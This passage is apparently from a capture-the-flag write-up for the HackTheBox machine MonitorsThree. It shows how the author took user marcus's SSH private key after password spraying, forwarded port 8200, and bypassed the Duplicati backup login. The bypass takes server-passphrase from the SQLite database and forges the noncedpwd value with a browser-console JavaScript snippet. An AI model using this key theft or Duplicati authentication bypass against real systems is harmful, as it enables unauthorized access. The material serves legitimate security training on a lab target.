 ```bash
done 
```

* Fortunately, this script found the password of user `marcus`
![](https://i.postimg.cc/sD5TjmsS/password-spray-attack.png)


#### SSH 

* Grab the `id_rsa` key of `marcus` at `/home/marcus/.ssh/id_rsa`
* Give suitable mods to it: `chmod 600 marcus_id_rsa`
* Connect: `ssh -i loot/marcus_id_rsa marcus@monitorsthree.htb` 

#### User Flag 

```bash
cat /home/*/*.txt
```

## Root Access 

* Running `ss -lnpt` I saw that port `8200` was opened locally 
* I used ssh to port forward: 
```bash
❯ ssh -L 8200:127.0.0.1:8200 marcus@10.10.11.30 -i loot/marcus_id_rsa
Last login: Sun Sep 22 02:25:07 2024 from 10.10.16.33
marcus@monitorsthree:~$ 
```

* When visiting `127.0.0.1:8200` it asks for a password. 

### Recon

* Port `8200` seems to run `Duplicati Beta`, a backup solution.
* `Duplicati` offers backup and recovery solutions on site. 
* Unfortunately, a password is required to login to the application.

### Enumerate Password 

#### Database & Login Bypass 

* After searching for ages, `/opt/duplicati/config` got my attention
* I transfered `Duplicati-server.sqlite` to my machine and opened it with `sqlitebrowser` (`sudo apt install sqlitebrowser -y`) 
* The `server-passphrase` on the `option` table, can be used to abuse `noncedpwd` in the JS back end code 
* I put a random password to the field, and captured the request on burp suite. 
* This returned a `SALT` that matches to the one in the database earlier 
* To create a valid `noncedpwd`: `server-passphrase` from DB > from `Base64` > then convert it to `hex` (using `CyberChef`) 
* I opened developer console in browser and executed:  
```javascript
var noncedpwd = CryptoJS.SHA256(CryptoJS.enc.Hex.parse(CryptoJS.enc.Base64.parse('value_of_NONCE') + 'value_of_hex_server_passphrase')).toString(CryptoJS.enc.Base64);
```
